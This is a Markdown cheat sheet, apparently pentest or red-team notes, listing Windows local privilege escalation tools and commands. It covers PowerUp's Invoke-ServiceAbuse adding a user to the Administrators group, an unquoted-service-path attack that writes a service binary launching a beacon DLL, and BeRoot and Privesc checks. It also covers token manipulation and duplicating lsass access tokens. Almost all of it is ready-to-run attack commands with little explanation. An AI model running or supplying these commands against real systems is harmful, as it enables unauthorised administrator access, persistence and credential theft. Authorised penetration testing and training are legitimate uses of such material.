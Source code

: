# Script tools
### Always Focussing on Service issues✔

 **1-PowerUp**

https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

 https://github.com/HarmJ0y/PowerUp

**Check for vulnerable programs and configs**
~~~
Invoke-AllChecks
~~~
**Exploit vulnerable service permissions (does not require touching disk)❤️**
~~~
Invoke-ServiceAbuse -Name "VulnerableSvc" -Command "net localgroup Administrators DOMAINxxx\userxxxx /add"

Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
~~~
**Get services with unquoted paths and a space in their name.** 
~~~
Get-ServiceUnquoted -Verbose 

Unquoted paths should have two options: 
1-CanRestart: True To restart the service 
2-StartName: LocalSystem should be another account or services to Privilege Escalation 

~~~
**Exploit an unquoted service path vulnerability to spawn a beacon**
~~~
Get-ServiceUnquoted -Verbose

Get-ModifiableServiceFile -Verbose

Write-ServiceBinary -Name 'VulnerableSvc' -Command 'c:\windows\system32\rundll32 c:\Users\Public\beacon.dll,Update' -Path 'C:\Program Files\VulnerableSvc'
~~~
**Restart the service to exploit (not always required)**
~~~
net.exe stop VulnerableSvc net.exe start VulnerableSvc
~~~

**Get services where the current user can write to its binary path or change arguments to the binary**
~~~
 Get-ModifiableServiceFile -Verbose
~~~
**Get the services whose configuration current user can modify.**  
 ~~~
Get-ModifiableService -Verbose
~~~

**Check localgroup admins**  
~~~
net localgroup Administrators
~~~
**2-BeRoot:** 
https://github.com/AlessandroZ/BeRoot 
~~~
.\beRoot.exe
~~~
**3– Privesc:**
 https://github.com/enjoiz/Privesc 
~~~
. .\privesc.ps1
Invoke-PrivEsc
~~~

**Scripts**

**1-Creates processes with other users logon tokens**👀

~~~
Invoke-TokenManipulation
~~~

**2-Duplicates the Access token of lsass**
~~~
Enable-DuplicateToken.ps1
~~~
